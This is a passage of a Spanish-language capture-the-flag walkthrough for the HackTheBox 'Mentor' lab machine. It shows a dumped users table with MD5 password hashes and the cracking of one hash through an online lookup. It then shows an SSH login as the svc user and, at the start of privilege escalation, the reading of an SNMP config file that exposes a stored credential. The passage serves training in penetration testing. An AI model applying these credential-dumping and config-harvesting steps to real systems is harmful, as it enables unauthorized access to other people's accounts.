 ```bash
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | metahumo@mail.com      | metahumo    | 248bca25a8a6b6cdb8aecea240202643
(3 filas)
```

```txt
53f22d0dfa10dce7e29cd31f4f953fd8 ---(hashes.com)---> 123meunomeeivani
```

Acción:

```bash
ssh svc@mentorquotes.htb
```

Resultado:

```bash
svc@mentor:~$ whoami
svc
svc@mentor:~$ pwd
/home/svc
svc@mentor:~$ ls
user.txt
```

---

## Fase elevar privilegios

Acción:

```bash
cat /etc/snmp/snmpd.conf
```

Resultado:

```bash

...

# include a all *.conf files in a directory
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
#view SystemView included .1.3.6.1.2.1.1
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
```
